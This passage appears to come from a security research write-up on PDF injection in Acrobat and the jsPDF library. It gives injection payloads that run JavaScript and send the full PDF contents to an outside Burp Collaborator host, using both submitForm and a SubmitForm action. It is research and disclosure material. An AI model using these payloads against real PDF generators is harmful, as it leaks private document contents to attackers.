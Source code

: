 Just like how XSS vectors depend on the browser's parsing, PDF injection exploitability can depend on the PDF renderer. I decided to start by targeting Acrobat because I thought the vectors were less likely to work in Chrome. Two things I noticed: 1) You could inject additional annotation actions and 2) if you repair the existing closing parenthesis then the PDF would render. After some experimentation, I came up with a nice payload that injected an additional annotation action, executed JavaScript, and repaired the closing parenthesis:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action>>/>>(`

First I break out of the parenthesis, then break out of the dictionary using >> before starting a new annotation dictionary. The /S/JavaScript makes the annotation JavaScript-based and the /JS is where the JavaScript is stored. Inside the parentheses is our actual JavaScript. Note that you don't have to escape the parentheses if they're balanced. Finally, I add the type of annotation, finish the dictionary, and repair the closing parenthesis. This was so cool; I could craft an injection that executed JavaScript but so what, right? You can execute JavaScript but you don't have access to the DOM, so you can't read cookies. Then James popped up and suggested stealing the contents of the PDF from the injection. I started looking at ways to get the contents of a PDF. In Acrobat, I discovered that you can use JavaScript to submit forms without any user interaction! Looking at the spec for the JavaScript API, it was pretty straightforward to modify the base injection and add some JavaScript that would send the entire contents of the PDF code to an external server in a POST request:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);`  \
`this.submitForm({`  \
`cURL: 'https://your-id.burpcollaborator.net',cSubmitAs: 'PDF'}))`  \
`/Type/Action>>/>>(`

The alert is not needed; I just added it to prove the injection was executing JavaScript.

Next, just for fun, I looked at stealing the contents of the PDF without using JavaScript. From the PDF specification, I found out that you can use an action called SubmitForm. I used this in the past when I constructed a PDF for a scan check in Burp Suite. It does exactly what the name implies. It also has a Flags entry in the dictionary to control what is submitted. The Flags dictionary key accepts a single integer value, but each individual setting is controlled by a binary bit. A good way to work with these settings is using the new binary literals in ES6. The binary literal should be 14 bits long because there are 14 flags in total. In the following example, all of the settings are disabled:`0b00000000000000`

To set a flag, you first need to look up its bit position (table 237 of the [PDF specification](https://www.adobe.com/content/dam/acom/en/devnet/pdf/pdfs/PDF32000_2008.pdf)). In this case, we want to set the SubmitPDF flag. As this is controlled by the 9th bit, you just need to count 9 bits from the right:`0b00000100000000`

If you evaluate this with JavaScript, this results in the decimal value 256. In other words, setting the Flags entry to 256 will enable the SubmitPDF flag, which causes the contents of the PDF to be sent when submitting the form. All we need to do is use the base injection we created earlier and modify it to call the SubmitForm action instead of JavaScript:`/blah)>>/A<</S/SubmitForm/Flags 256/F(`  \
`https://your-id.burpcollaborator.net)`  \
`/Type/Action>>/>>(`

## sPDF

Next I applied my methodology to another PDF library - [jsPDF](https://parall.ax/products/jspdf) - and found it was vulnerable too. Exploiting this library was quite fun because they have an API that can execute in the browser and will allow you to generate the PDF in real time as you type. I noticed that, like the PDP-Lib library, they forgot to escape parentheses inside annotation URLs. Here the url property was vulnerable:`doc.createAnnotation({bounds:`  \
`{x:0,y:10,w:200,h:200},`  \
``type:'link',url:`/input`});``  \
`//vulnerable`
